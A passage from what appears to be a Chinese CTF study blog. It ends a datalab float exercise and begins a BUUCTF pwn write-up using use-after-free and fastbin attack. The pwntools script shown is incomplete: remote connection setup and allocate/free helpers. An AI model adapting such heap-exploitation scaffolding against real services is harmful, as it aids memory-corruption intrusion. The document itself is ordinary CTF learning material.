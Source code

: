 ```c
  			result*=2;
  			re--;
		  }
		  if(s==1){
		  	return result*-1;
		  }
		  else return result;
  		
	}
  }
}
```
### 13.返回x的x次方 ###
我理解的题目的意思是通过exp部分来实现2的x次方，但是x为负数返回0，感觉很奇怪，而且我本地还打不通，不能返回0
，太离谱了，思路很简单
```c
unsigned floatPower2(int x) {
    unsigned INF = 0xff << 23;
	int e = 127 + x;
	if (x < 0)
		return 0;
	if (e >= 255)
		return INF;
	return e << 23;
}
```
最后得分28分，就差两个题......

## buu ##

### 1.wustctf2020_easyfast ###
这个题思路很简单，只要把0x602090改为0就可以了，可以直接通过uaf和fastbinattack，在0x6020080处分配内存，但是这个地方理论上是分配不了的，因为大小为0x50,后一位是0,待解决
```python
from pwn import *
from LibcSearcher import *
from struct import pack
a=0
b=1
elf=ELF("./pwn")
libc=ELF("./libc-2.23.so")
context.os='linux'
context.arch='amd64'
#context.log_level='debug'
if(a==1):
	p=process("./pwn")
else:
	p=remote("node4.buuoj.cn",28425)

def allo(size):
	p.recvuntil("choice>\n")
	p.sendline("1")
	p.recvuntil("size>\n")
	p.sendline(str(size))

def free(index):
	p.recvuntil("choice>\n")
	p.sendline("2")
	p.recvuntil("index>\n")
	p.sendline(str(index))
	
def edit(index,content):
```